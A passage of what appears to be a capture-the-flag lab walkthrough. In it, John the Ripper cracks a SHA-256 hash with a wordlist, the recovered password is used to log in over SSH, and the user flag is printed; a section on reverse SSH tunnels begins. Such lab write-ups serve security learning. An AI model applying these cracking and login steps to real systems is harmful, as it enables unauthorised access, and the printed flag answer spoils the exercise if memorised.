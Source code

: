 <br>

<pre><code># # PATH=$PATH:/usr/sbin  </code></pre>

<br>

<pre><code># john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)     
1g 0:00:00:00 DONE (2024-11-09 21:36) 3.125g/s 9113Kp/s 9113Kc/s 9113KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
</code></pre>

<br>
<p>Based on the output, it seems that the hashing algorithm used in our case is SHA-256.</p>

<br>
<p>Now you have a password and username. Try SSH'ing onto the machine.</p>
<br>

> 4.3. <em>What is the user flag??</em><br><a id='4.3'></a>
>> <code><strong>_____________________</strong></code>


<pre><code># ssh agent47@[Target_Machine]        
The authenticity of host 'Target_Machine] (Target_Machine])' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.213.253' (ED25519) to the list of known hosts.
agent47@Target_Machine]'s password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from [Redacted]
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
</code></pre>

<br>
<h2>Task 5. Exposing services with reverse SSH tunnels<a id='5'></a></h2>

![image](https://github.com/user-attachments/assets/b46754b2-be18-4c39-8b39-40abf2020711)

<p align="center">Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.</p>
